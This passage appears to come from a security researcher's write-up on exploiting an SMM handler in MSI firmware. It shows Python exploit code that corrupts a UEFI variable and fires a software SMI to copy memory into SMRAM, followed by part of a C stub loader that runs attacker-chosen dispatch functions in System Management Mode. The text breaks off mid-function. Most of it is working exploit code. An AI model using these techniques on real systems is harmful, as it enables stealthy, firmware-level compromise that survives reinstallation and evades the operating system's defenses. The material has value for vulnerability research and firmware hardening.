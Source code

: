 ##### [#](#post-exploitation) Post Exploitation

I’ve defiled enough of MSIApServiceSmi’s code - getting my own SMRAM pages would be great so that bigger payloads can be written to perform more complex work, without worrying about overwriting something important. I also prefer not to continue having to set a UEFI variable each time I want to do anything.

##### [#](#meet-stub-loader) Meet Stub Loader

```
def copy_mem(self, source, dest, size):
    payload_address = 0x500 # any physical address with write access will do
    copy_payload = self.CopyMem()

    copy_payload.source = ctypes.c_void_p(source)
    copy_payload.dest = ctypes.c_void_p(dest)
    copy_payload.size = size

    self.cs.helper.write_phys_mem(
        payload_address, ctypes.sizeof(copy_payload), bytes(copy_payload)
    )

    primitive = payload_address.to_bytes(8, "little")

    data = self.gen_bad_var_data(write_primitive=primitive)
    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

The stub loader will read a struct at a static memory address (0x600).

```
__int64 stub_loader(void)
{
  PCONFIG c = (PCONFIG)(0x600);

  if (!c->CommBuffer)
  {
    return -1;
  }

  if (c->DispatchFunction)
  {
    typedef void(__stdcall* tDispatch)(PCONFIG);

    tDispatch dispatch = (tDispatch)c->DispatchFunction;
    dispatch(c); 
    return -1;
  }

  if (!c->DispatchFunction)
  {
    c->CommBuffer->ret = 0xFF;

    if (!c->CommBuffer->source || c->CommBuffer->size < 1)
    {
      c->CommBuffer->ret = 0xFE;
      return -1;
    }

    if (!c->SMST)
    {
      c->CommBuffer->ret = 0xFD;
      return -1;
    }
```